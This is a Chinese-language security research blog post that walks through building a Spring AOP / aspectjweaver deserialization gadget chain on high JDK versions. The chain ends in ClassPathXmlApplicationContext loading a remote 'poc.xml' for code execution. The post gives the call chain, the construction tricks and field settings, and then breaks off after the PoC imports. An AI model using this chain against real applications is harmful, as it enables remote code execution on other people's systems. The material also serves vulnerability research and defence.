前言：学习@jsjcw师傅在星球发的
高版本jdk aop链，感觉会用到就去分析构造了下完整poc，起初以为就是一条平常的链子，实则暗藏了很多操作！膜拜佬！^!
环境
正常spring项目再加上下面这个依赖
<dependency>
<groupId>org.aspectj</groupId>
<artifactId>aspectjweaver</artifactId>
<version>1.9.2</version>
</dependency>
这里其实很奇怪，因为aop中的类需要上面的依赖的类，却还要我们导入这个依赖（应该直接融到spring里的才对

0x01 简单利用思路
利用点在AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs，通过这里调用任意类的任意(无参|一个参数)方法

然后继续向上查找调用，只有两处可以传入参数(参数指最后调用的args)，这里我们用的是returnValue

继续向上找

最上面会到JdkDynamicAopProxy#invoke，其中会调用proceed()然后再调用上图invoke()

所以基本利用链就是找个readObject有方法调用的点触发JdkDynamicAopProxy#invoke然后一路到最后的利用invoke，但是调用起来并没有这么顺利
其实利用路线不止这一条，无参也可以调用
TemplatesImpl#newTransformer进行利用这里选择
有参调用，主要是为了想调用ClassPathXmlApplicationContext，因为是高版本jdk，这里invoke调用有模块检测TemplatesImpl#newTransformer（写了个demo是不行的
0x02 poc构造
其实这个我不知道怎么说，因为这条链子其实有点绕，我又不想从头开始构造了，那我就按调试过程来描述吧
调用链
Hashtable#readObject
HotSwappableTargetSource#equals
Hashtable#equals
$Proxy0#get
JdkDynamicAopProxy#invoke
ReflectiveMethodInvocation#proceed
ExposeInvocationInterceptor#invoke --> 设置mi，然后调用proceed()
ReflectiveMethodInvocation#proceed
AfterReturningAdviceInterceptor#invoke
mi.proceed()->ReflectiveMethodInvocation#invokeJoinpoint
1. 调用map.size()返回1，且不进入后续invokeAdviceMethod
2. 调用map.get()返回"http://127.0.0.1:8888/poc.xml"，一路到invoke
AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs
DefaultFormatter#stringToValue
ClassPathXmlApplicationContext(String...)
1. ExposeInvocationInterceptor
这里需要先添加ExposeInvocationInterceptor再添加我们的目标advice，因为后面调用有个点会找一个值，ExposeInvocationInterceptor#invoke进行设置

在afterReturning()后续处理，这里会查找mi，不设置这个就是null会报错

然后这里再回到proceed()方法

这里get(++index)获取到目标advice进入理想中的流程，这里this.interceptorsAndDynamicMethodMatchers就是JdkDynamicAopProxy的chain，getInterceptorsAndDynamicInterceptionAdvice()会进行正则匹配，匹配成功的advice会add到chain中，没有设置正则其实都会为true进行添加
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);

2. actualArgs
经过调试发现这个args需要来自前面Object retVal = mi.proceed();

而retVal这个值来之一个invoke调用的结果

其中，target我们可以直接设置，method和args则来自proxy触发时的方法和参数，@jsjcw师傅是想到用Map#get来控制这个retVal值

即我们需要让proxy在反序列化时触发一个get方法，这个在CC中其实利用很多了，这里是选择了Hashtable#equals来触发这个get方法

3. hash HSTS
但是到Hashtable#equals这步也有技巧，看到这个e.key.equals(key)和上方equals中if (!(o instanceof Map<?, ?> t))（其含义：匹配o是不是Map对象，是的话赋值给t）
得(key)t=proxy，e.key=Hashtable，但是hash要一样的话需要key=e.key这里显然就矛盾了

然后这时就想到了(HSTS)HotSwappableTargetSource的hash是固定！且其equals方法正好能满足我们的需求，所以这里套用一层HotSwappableTargetSource
public boolean equals(Object other) {
return (this == other || (other instanceof HotSwappableTargetSource &&
this.target.equals(((HotSwappableTargetSource) other).target)));
}
这里本来还有个关于hash进入上图中if的问题，由于HSTS的加入，这个问题也不存在了
4. size()
构造好上面这些后，发现size()时就会触发proxy，然后到最后利用点，size()返回值为(int)1，最后利用点invoke调用这个参数时会报错中断

但是我们发现进入最后invoke前会有个类型判断，即type和returnValue的判断，这里type我们可以通过this.discoveredReturningType设置（这个值设置了returningName后面会被覆盖，但是是已经判断完了才覆盖的，所以可以用这个点）
我们要调用的是ClassPathXmlApplicationContext的自构方法，所以这里type设置为String就行，returnValue为int时就不会进入后续invoke调用了，等map#get获取为我们"http://127.0.0.1:8888/poc.xml"才会进入后续invoke调用
private boolean matchesReturnValue(Class<?> type, Method method, @Nullable Object returnValue) {
if (returnValue != null) {
return ClassUtils.isAssignableValue(type, returnValue);
}

5. newInstance
然后就是利用点的查找，@jsjcw师傅找的是一个jackson依赖的AnnotatedConstructor#call1，但是jackson依赖也需要额外添加，并不是spring自带，像这种依赖需求肯定是越少越好，然后尝试找了下，发现应该是有不少能用的
我用的是jdk自带的DefaultFormatter#stringToValue

6. 其他
setFieldValue(aspectJAfterReturningAdvice,"argumentNames",new String[]{"java.lang.Object"});
setFieldValue(aspectJAfterReturningAdvice,"returningName","java.lang.Object");
然后还有点这个没讲吧，这个是跟actualArgs值获取有关的。这里returningName!=null才会把我们设置的returnValue传入到最后的invoke中去，然后这个值还跟一个报错有关，不设置会报错。

不出网
@jsjcw师傅还提到用FileCopyUtils的copy方法创建一个本地xml，然后调用这个xml进行命令执行
其他貌似没啥了
0x03 poc & 利用链
Hashtable#readObject
HotSwappableTargetSource#equals
Hashtable#equals
$Proxy0#get
JdkDynamicAopProxy#invoke
ReflectiveMethodInvocation#proceed
ExposeInvocationInterceptor#invoke --> 设置mi，然后调用proceed()
ReflectiveMethodInvocation#proceed
AfterReturningAdviceInterceptor#invoke
mi.proceed()->ReflectiveMethodInvocation#invokeJoinpoint
1. 调用map.size()返回1，且不进入后续invokeAdviceMethod
2. 调用map.get()返回"http://127.0.0.1:8888/poc.xml"，一路到invoke
AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs
DefaultFormatter#stringToValue
ClassPathXmlApplicationContext(String...)
import com.fasterxml.jackson.databind.introspect.AnnotatedConstructor;
import com.fasterxml.jackson.databind.introspect.AnnotationMap;
import com.fasterxml.jackson.databind.introspect.TypeResolutionContext;
import com.fasterxml.jackson.databind.type.TypeFactory;
import org.springframework.aop.aspectj.AspectJAfterReturningAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.adapter.AfterReturningAdviceInterceptor;
import org.springframework.aop.interceptor.ExposeInvocationInterceptor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.context.support.ClassPathXmlApplicationContext;
import sun.misc.Unsafe;
import javax.swing.text.DefaultFormatter;
import java.io.*;
